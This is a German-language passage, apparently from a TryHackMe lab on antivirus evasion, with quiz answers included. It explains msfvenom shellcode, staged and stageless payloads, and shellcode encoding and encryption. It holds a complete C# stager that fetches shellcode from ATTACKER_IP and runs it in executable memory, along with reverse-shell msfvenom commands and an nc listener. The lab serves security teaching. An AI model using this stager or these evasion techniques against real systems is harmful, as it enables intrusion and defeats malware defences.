Sobald wir unsere EXE-Datei haben, übertragen wir sie auf die Windows-Maschine und führen sie aus. Um die Datei zu übertragen, können Sie smbclient von Ihrer AttackBox aus verwenden, um auf den SMB-Share unter \10.10.169.114\Tools zuzugreifen. Verwenden Sie dazu die folgenden Befehle (denken Sie daran, dass das Passwort für den Benutzer “thm” Password321 lautet):
```shell
user@AttackBox$ smbclient -U thm '//CUSTOM-IP/Tools'
smb: \> put calc-MSF.exe
```

Dies sollte Ihre Datei in `C:\Tools\` auf dem Windows-Rechner kopieren.

Das AV-System Ihres Rechners sollte zwar deaktiviert sein, aber Sie können dennoch versuchen, Ihre Nutzdaten in den THM Antivirus Check auf `http://CUSTOM-IP/` hochzuladen.  


Das Metasploit-Framework bietet viele andere Shellcode-Formate und -Typen für Ihre Bedürfnisse. Wir empfehlen dringend, mehr damit zu experimentieren und Ihr Wissen zu erweitern, indem Sie verschiedene Shellcodes generieren.

Das vorherige Beispiel zeigt, wie Sie Shellcode generieren und auf einer Zielmaschine ausführen können. Natürlich können Sie dieselben Schritte wiederholen, um verschiedene Arten von Shellcode zu erstellen, z. B. den Meterpreter-Shellcode.

### Generieren von Shellcode aus EXE-Dateien

Shellcode kann auch in `.bin` Dateien gespeichert werden, einem Rohdatenformat. In diesem Fall können wir den Shellcode mit dem Befehl `xxd -i` extrahieren.

C2-Frameworks stellen Shellcode als rohe Binärdatei `.bin` bereit. Wenn dies der Fall ist, können wir den Linux-Systembefehl `xxd` verwenden, um die hexadezimale Darstellung der Binärdatei zu erhalten. Dazu führen wir den folgenden Befehl aus: `xxd -i`.

Lassen Sie uns eine rohe Binärdatei mit msfvenom erstellen, um den Shellcode zu erhalten:
```shell
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
```

Führe dann den Befehl `xxd` für die erstellte Datei aus:
```shell
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

Wenn wir die Ausgabe mit dem zuvor mit Metasploit erstellten Shellcode vergleichen, stimmt sie überein.

## Fragen:
Stelle sicher den obigen Text gelesen zu haben.
```
Keine Antwort nötig
```

# Task 6 - Staged Payloads
In unserem Ziel, die AV zu umgehen, werden wir zwei Hauptansätze finden, um den finalen Shellcode einem Opfer zuzustellen. Abhängig von der Methode werden die Payloads üblicherweise als **staged** oder **stageless** Payloads kategorisiert. In dieser Aufgabe werden wir die Unterschiede beider Ansätze und die Vorteile jeder Methode betrachten.

### Stageless Payloads

Eine nicht staged Payload bettet den finalen Shellcode direkt in sich selbst ein. Man kann sie sich wie eine verpackte App vorstellen, die den Shellcode in einem einstufigen Prozess ausführt. In früheren Aufgaben haben wir eine ausführbare Datei eingebettet, die einen einfachen `Calc` Shellcode eingebettet hat, wodurch eine stageless Payload erstellt wurde.


Im obigen Beispiel, wenn der Benutzer die bösartige Payload ausführt, wird der eingebettete Shellcode ausgeführt und dem Angreifer eine Reverse-Shell bereitstellen.

### Staged Payloads

Staged Payloads funktionieren, indem sie Zwischen-Shellcodes verwenden, die als Schritte zur Ausführung eines finalen Shellcodes dienen. Jeder dieser Zwischen-Shellcodes wird als Stager bezeichnet, und sein Hauptziel ist es, eine Methode bereitzustellen, um den finalen Shellcode abzurufen und letztendlich auszuführen.

Obwohl es Payloads mit mehreren Stufen geben kann, handelt es sich im Normalfall um eine zweistufige Payload, bei der die erste Stufe, die wir **stage0** nennen, ein Platzhalter-Shellcode ist, der eine Verbindung zur Maschine des Angreifers herstellt, um den finalen Shellcode herunterzuladen und auszuführen.


Einmal abgerufen, wird der stage0-Stub den finalen Shellcode irgendwo im Speicher des Payload-Prozesses injizieren und ausführen (wie unten gezeigt).


Staged vs. Stageless

Bei der Entscheidung, welche Art von Payload zu verwenden ist, müssen wir uns der Umgebung bewusst sein, die wir angreifen werden. Jede Art von Payload hat Vor- und Nachteile, je nach dem spezifischen Angriffsszenario.

Im Fall von Stageless-Payloads haben Sie folgende Vorteile:

- Die resultierende ausführbare Datei enthält alles, was benötigt wird, um unseren Shellcode zum Laufen zu bringen.
- Der Payload wird ausgeführt, ohne zusätzliche Netzwerkverbindungen zu benötigen. Je weniger Netzwerkinteraktionen, desto geringer die Wahrscheinlichkeit, von einem IPS erkannt zu werden.
- Wenn Sie einen Host angreifen, der sehr eingeschränkte Netzwerkverbindungen hat, möchten Sie möglicherweise Ihren gesamten Payload in einem einzigen Paket haben.

Für Staged-Payloads haben Sie:

- Geringer Speicherbedarf auf der Festplatte. Da Stage0 nur für das Herunterladen des finalen Shellcodes zuständig ist, wird es wahrscheinlich klein sein.
- Der finale Shellcode ist nicht in die ausführbare Datei eingebettet. Wenn Ihr Payload erfasst wird, hat das Blue Team nur Zugriff auf den Stage0-Stub und nichts weiter.
- Der finale Shellcode wird im Speicher geladen und berührt niemals die Festplatte. Dies macht ihn weniger anfällig für Erkennung durch AV-Lösungen.
- Sie können denselben Stage0-Dropper für viele Shellcodes wiederverwenden, indem Sie einfach den finalen Shellcode ersetzen, der an die Opfermaschine gesendet wird.

Zusammenfassend lässt sich sagen, dass weder die eine noch die andere Art grundsätzlich besser ist, es sei denn, wir fügen etwas Kontext hinzu. Im Allgemeinen sind Stageless-Payloads besser für Netzwerke geeignet, die stark abgesichert sind, da sie nicht darauf angewiesen sind, den finalen Shellcode aus dem Internet herunterzuladen. Wenn Sie beispielsweise einen USB-Drop-Angriff durchführen, um Computer in einer geschlossenen Netzwerkumgebung anzugreifen, in der Sie keine Verbindung zu Ihrer Maschine zurückbekommen werden, ist Stageless die beste Wahl.

Staged-Payloads hingegen sind großartig, wenn Sie möchten, dass Ihr Fußabdruck auf der lokalen Maschine minimal ist. Da sie den finalen Payload im Speicher ausführen, könnten einige AV-Lösungen Schwierigkeiten haben, sie zu erkennen. Sie eignen sich auch gut, um Ihre Shellcodes nicht zu offenbaren (die normalerweise erhebliche Zeit zur Vorbereitung benötigen), da der Shellcode zu keinem Zeitpunkt auf der Festplatte des Opfers abgelegt wird.

Stagers in Metasploit

Bei der Erstellung von Payloads mit msfvenom oder der Verwendung in Metasploit können Sie wählen, ob Sie staged oder stageless Payloads verwenden möchten. Als Beispiel, wenn Sie eine reverse TCP-Shell generieren möchten, finden Sie zwei Payloads für diesen Zweck mit leicht unterschiedlichen Namen (beachten Sie das _ versus / nach shell).
| Payload | Type |
| ------- | ---- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload |

Generell werden Sie feststellen, dass dieselben Namensmuster auch auf andere Arten von Shells angewendet werden. Um beispielsweise einen stageless Meterpreter zu verwenden, würden wir `windows/x64/meterpreter_reverse_tcp` verwenden, anstatt `windows/x64/meterpreter/reverse_tcp`, was für seine staged Version funktioniert.

### Erstellung Ihres eigenen Stagers

Um einen staged Payload zu erstellen, verwenden wir eine leicht modifizierte Version des Stager-Codes, der von [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs) bereitgestellt wurde. Den vollständigen Code unseres Stagers können Sie hier erhalten, er ist aber auch auf Ihrem Windows-Rechner unter `C:\Tools\CS Files\StagedPayload.cs` verfügbar.
```CS
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Der Code mag auf den ersten Blick einschüchternd wirken, ist jedoch relativ einfach. Lassen Sie uns Schritt für Schritt analysieren, was er macht.

Der erste Teil des Codes wird einige Windows-API-Funktionen über P/Invoke importieren. Die benötigten Funktionen sind die folgenden drei aus `kernel32.dll`:
| WinAPI Function          | Description                                                           |
|--------------------------|-----------------------------------------------------------------------|
| VirtualAlloc()           | Ermöglicht uns, Speicher zu reservieren, der von unserem Shellcode verwendet werden soll. |
| CreateThread()           | Erstellt einen Thread als Teil des aktuellen Prozesses.                |
| WaitForSingleObject()    | Wird zur Thread-Synchronisierung verwendet. Ermöglicht das Warten auf das Beenden eines Threads, bevor mit der Ausführung fortgefahren wird. |

Der Teil des Codes, der für den Import dieser Funktionen zuständig ist, lautet wie folgt:
```CS
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

Der bedeutendste Teil unseres Codes wird in der Funktion Stager() liegen, wo die Logik des Stagers implementiert wird. Die Stager-Funktion wird eine URL erhalten, von der der auszuführende Shellcode heruntergeladen wird.

Der erste Teil der `Stager()` Funktion wird ein neues `WebClient()` Objekt erstellen, das es uns ermöglicht, den Shellcode über Webanfragen herunterzuladen. Bevor die eigentliche Anfrage gestellt wird, überschreiben wir die `ServerCertificateValidationCallback` Methode, die für die Validierung von SSL-Zertifikaten bei HTTPS-Anfragen zuständig ist, damit der WebClient keine Beschwerden über selbstsignierte oder ungültige Zertifikate macht, die wir auf dem Webserver verwenden, der die Payloads hostet. Danach rufen wir die `DownloadData()` Methode auf, um den Shellcode von der angegebenen URL herunterzuladen und ihn in der Variablen `shellcode` zu speichern:
```CS
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Sobald unser Shellcode heruntergeladen und in der Variable `shellcode` verfügbar ist, müssen wir ihn in ausführbaren Speicher kopieren, bevor wir ihn tatsächlich ausführen können. Wir verwenden `VirtualAlloc()`, um einen Speicherblock vom Betriebssystem anzufordern. Beachten Sie, dass wir genug Speicher für `shellcode.Length` Bytes anfordern und das Flag `PAGE_EXECUTE_READWRITE` setzen, um den zugewiesenen Speicher ausführbar, lesbar und beschreibbar zu machen. Sobald unser ausführbarer Speicherblock reserviert und der Variablen `codeAddr` zugewiesen ist, verwenden wir `Marshal.Copy()`, um den Inhalt der Variable `shellcode` in die Variable `codeAddr` zu kopieren.
```CS
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Nun, da wir eine Kopie des Shellcodes in einem Block ausführbaren Speichers allokiert haben, verwenden wir die Funktion `CreateThread()`, um einen neuen Thread im aktuellen Prozess zu erzeugen, der unseren Shellcode ausführt. Der dritte Parameter, der an CreateThread übergeben wird, zeigt auf `codeAddr`, wo unser Shellcode gespeichert ist. Dadurch wird beim Start des Threads der Inhalt unseres Shellcodes ausgeführt, als wäre es eine normale Funktion. Der fünfte Parameter ist auf 0 gesetzt, was bedeutet, dass der Thread sofort starten wird.

Sobald der Thread erstellt wurde, rufen wir die Funktion `WaitForSingleObject()` auf, um unserem aktuellen Programm mitzuteilen, dass es auf die Beendigung der Thread-Ausführung warten muss, bevor es weitermacht. Dies verhindert, dass unser Programm geschlossen wird, bevor der Shellcode-Thread eine Chance hat, ausgeführt zu werden:
```CS
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

Um den Code zu kompilieren, empfehlen wir, ihn als Datei namens staged-payload.cs auf einen Windows-Rechner zu kopieren und mit folgendem Befehl zu kompilieren:
```powershell
PS C:\> csc staged-payload.cs
```

### Verwenden unseres Stagers zur Ausführung einer Reverse-Shell

Nachdem unser Payload kompiliert wurde, müssen wir einen Webserver einrichten, um den finalen Shellcode zu hosten. Denken Sie daran, dass unser Stager sich mit diesem Server verbinden wird, um den Shellcode abzurufen und ihn im Speicher der Opfermaschine auszuführen. Beginnen wir damit, einen Shellcode zu generieren (der Dateiname muss mit der URL in unserem Stager übereinstimmen):
```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Beachten Sie, dass wir das Raw-Format für unseren Shellcode verwenden, da der Stager alles direkt in den Speicher laden wird, was er herunterlädt.

Nun, da wir einen Shellcode haben, richten wir einen einfachen HTTPS-Server ein. Zuerst müssen wir ein selbstsigniertes Zertifikat mit folgendem Befehl erstellen:
```shell
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Sie werden nach einigen Informationen gefragt, aber Sie können gerne die Eingabetaste drücken, um die angeforderten Informationen zu überspringen, da das SSL-Zertifikat nicht gültig sein muss. Sobald wir ein SSL-Zertifikat haben, können wir einen einfachen HTTPS-Server mit Python3 starten, indem wir den folgenden Befehl verwenden:
```shell
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Mit allem bereit können wir jetzt unseren Stager-Payload ausführen. Der Stager sollte sich mit dem HTTPS-Server verbinden und die Datei shellcode.bin abrufen, um sie in den Speicher zu laden und auf der Zielmaschine auszuführen. Denken Sie daran, einen nc-Listener einzurichten, um die reverse Shell auf dem gleichen Port zu empfangen, der beim Ausführen von msfvenom angegeben wurde:
```shell
user@AttackBox$ nc -lvp 7474
```

## Fragen:
Liefern gestagte Payloads den gesamten Inhalt unseres Payloads in einem einzelnen Paket? (ja/nein)
```
nein
```

Ist der Metasploit-Payload windows/x64/meterpreter_reverse_https ein gestagter Payload? (ja/nein)
```
nein
```

Ist Stage0 eines gestagten Payloads dafür zuständig, den finalen Payload herunterzuladen, der ausgeführt werden soll? (ja/nein)
```
ja
```

Folgen Sie den Anweisungen, um eine gestagte Payload zu erstellen und sie in der THM Antivirus-Überprüfung unter http://MACHINE_IP/ hochzuladen.
```
Keine Antwort nötig
```

# Task 7 - Einführung in Ver- und Entschlüsselung
### Was ist Encoding?

Encoding ist der Prozess, bei dem Daten aus ihrem ursprünglichen Zustand in ein spezifisches Format umgewandelt werden, abhängig vom Algorithmus oder Typ des Encodings. Es kann auf viele Datentypen angewendet werden, wie Videos, HTML, URLs und Binärdateien (EXE, Bilder usw.).

Encoding ist ein wichtiges Konzept, das häufig für verschiedene Zwecke verwendet wird, einschließlich, aber nicht beschränkt auf:

- Programmkompilierung und -ausführung
- Datenspeicherung und -übertragung
- Datenverarbeitung wie Dateikonvertierung

Ebenso wird Encoding bei AV-Umgehungstechniken verwendet, um Shellcode-Strings innerhalb einer Binärdatei zu verstecken. Allerdings ist Encoding allein nicht ausreichend für Umgehungszwecke. Heutzutage ist AV-Software intelligenter und kann eine Binärdatei analysieren. Wenn ein codierter String gefunden wird, wird er dekodiert, um die ursprüngliche Form des Textes zu überprüfen.

Sie können auch zwei oder mehr Encoding-Algorithmen gleichzeitig verwenden, um es der AV schwerer zu machen, den versteckten Inhalt zu entschlüsseln. Die folgende Abbildung zeigt, dass wir den "THM"-String in eine hexadezimale Darstellung umgewandelt und dann mit Base64 codiert haben. In diesem Fall müssen Sie sicherstellen, dass Ihr Dropper solches Encoding verarbeitet, um den String in seinen ursprünglichen Zustand zurückzuführen.  


### Was ist Verschlüsselung?

Verschlüsselung ist eines der wesentlichen Elemente der Informations- und Datensicherheit, das sich darauf konzentriert, unbefugten Zugriff und Manipulation von Daten zu verhindern. Der Verschlüsselungsprozess beinhaltet die Umwandlung von Klartext (unverschlüsselter Inhalt) in eine verschlüsselte Version, die als Ciphertext bezeichnet wird. Der Ciphertext kann ohne Kenntnis des im Verschlüsselungsprozess verwendeten Algorithmus sowie des Schlüssels nicht gelesen oder entschlüsselt werden.

Ähnlich wie beim Encoding werden Verschlüsselungstechniken für verschiedene Zwecke verwendet, wie z. B. die sichere Speicherung und Übertragung von Daten sowie End-to-End-Verschlüsselung. Verschlüsselung kann auf zwei Arten verwendet werden: durch einen gemeinsamen Schlüssel zwischen zwei Parteien oder durch die Verwendung von öffentlichen und privaten Schlüsseln.

Für weitere Informationen über Verschlüsselung empfehlen wir, den Raum [Encryption - Crypto 101](https://tryhackme.com/r/room/encryptioncrypto101) zu besuchen.


### Warum müssen wir über Encoding und Verschlüsselung Bescheid wissen?

AV-Anbieter implementieren ihre AV-Software, um die meisten öffentlichen Tools (wie Metasploit und andere) mithilfe statischer oder dynamischer Erkennungstechniken auf die Blockliste zu setzen. Daher ist ohne Modifizierung des von diesen öffentlichen Tools generierten Shellcodes die Erkennungsrate für Ihren Dropper hoch.

Encoding und Verschlüsselung können in AV-Umgehungstechniken verwendet werden, bei denen wir Shellcode, der in einem Dropper verwendet wird, encodieren und/oder verschlüsseln, um ihn zur Laufzeit vor der AV-Software zu verbergen. Die beiden Techniken können nicht nur verwendet werden, um den Shellcode zu verbergen, sondern auch Funktionen, Variablen usw. In diesem Raum konzentrieren wir uns hauptsächlich darauf, den Shellcode zu verschlüsseln, um Windows Defender zu umgehen.

## Fragen:
Reicht es aus, Shellcode nur zu encodieren, um Antivirus-Software zu umgehen? (ja/nein)
```
nein
```

Verwenden Encoding-Techniken einen Schlüssel, um Strings oder Dateien zu encodieren? (ja/nein)
```
nein
```

Verwenden Verschlüsselungsalgorithmen einen Schlüssel, um Strings oder Dateien zu verschlüsseln? (ja/nein)
```
ja
```

# Task 8 - Shellcode Ver- und Entschlüsselung
### Encoding mit MSFVenom

Öffentliche Tools wie Metasploit bieten Encoding- und Verschlüsselungsfunktionen an. AV-Anbieter sind jedoch über die Methoden dieser Tools zur Erstellung ihrer Payloads informiert und ergreifen Maßnahmen, um sie zu erkennen. Wenn Sie solche Funktionen ohne Anpassungen verwenden, besteht eine hohe Wahrscheinlichkeit, dass Ihr Payload sofort erkannt wird, sobald die Datei die Festplatte des Opfers berührt.

Lassen Sie uns einen einfachen Payload mit dieser Methode generieren, um diesen Punkt zu beweisen. Zuerst können Sie alle Encoder auflisten, die msfvenom zur Verfügung stehen, mit folgendem Befehl:
```shell   
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder        
```

Wir können angeben, dass wir den Encoder `shikata_ga_nai` mit dem `-e` (Encoder)-Schalter verwenden möchten, und dann spezifizieren, dass wir den Payload dreimal encodieren möchten, mit dem `-i` (Iterations)-Schalter:
```shell           
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes        
```

Wenn wir versuchen, unseren neu generierten Payload auf unsere Testmaschine hochzuladen, wird das AV-Programm ihn sofort markieren, bevor wir überhaupt die Möglichkeit haben, ihn auszuführen:


Wenn Encoding nicht funktioniert, können wir immer versuchen, den Payload zu verschlüsseln. Intuitiv würden wir erwarten, dass dies eine höhere Erfolgsrate hat, da das Entschlüsseln des Payloads für das AV-Programm eine schwierigere Aufgabe darstellen sollte. Lassen Sie uns das jetzt ausprobieren.

### Verschlüsselung mit MSFVenom

Sie können mit msfvenom leicht verschlüsselte Payloads generieren. Die Auswahl an Verschlüsselungsalgorithmen ist jedoch etwas begrenzt. Um die verfügbaren Verschlüsselungsalgorithmen aufzulisten, können Sie den folgenden Befehl verwenden:
```shell           
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor        
```

